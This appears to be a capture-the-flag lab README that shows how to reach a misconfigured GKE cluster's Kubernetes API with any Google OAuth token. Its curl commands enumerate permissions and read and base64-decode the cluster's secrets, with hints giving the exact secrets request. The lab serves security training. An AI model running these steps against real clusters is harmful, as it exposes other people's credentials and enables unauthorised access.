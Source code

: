 # Challenge 1: Confidential Cluster

## Introduction

You received just an IP address as your very first entrypoint into the GCP project.  
The IP belongs to a Google Kubernetes Cluster (GKE) - how can you access the Kubernetes API to learn more about the cluster?


To simplify your next commands, set the IP address as an environment variable:  
#####
    export IP=<IP>

You can access the API of the cluster at this endpoint:  
#####
    curl -k https://$IP/api

As you are not authenticated, you are part of the group `system:anonymous` and you can't access much.  
Most endpoints will respond with 403 permission denied.  

But what if you were in `system:authenticated`? 
Try to get a token for your own Google account using the [OAuth playground](https://developers.google.com/oauthplayground/) (select scope "Kubernetes Engine API v1").  

Set your token as environment variable to make the next commands easier to use.  
#####
    export TOKEN=<token>

Send a request with your token to the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/

Just by supplying any Google access token you will be able to access the endpoint!  

Once you have gained access and can read from the Kubernetes API - which API resources can you query?

You can find out which permissions 'system:authenticated' has on this cluster with a request to this endpoint:  
#####
    curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews

It looks like you have read access to some resources on the default namespace of the cluster.  
You can also query them by using the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/<...>

## Your Goal

**Discover the secrets that this cluster has in store for you.**

## Useful commands and tools:

- `curl -k https://$IP`
- `curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/...`
- [Google OAuth Playground](https://developers.google.com/oauthplayground/)
- Learn more about this misconfiguration [here](https://orca.security/resources/blog/sys-all-google-kubernetes-engine-risk)

## Hints

<details>
  <summary>Hint 1</summary>

  You can read Kubernetes secrets in the default namespace on the cluster. Which secrets might it hold?  
  #####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets

</details>

<details>
  <summary>Hint 2</summary>

  The secret values are base64 encoded. Decode them to read the value:  
  #####
    echo -n <secret-value> | base64 -d  

</details>
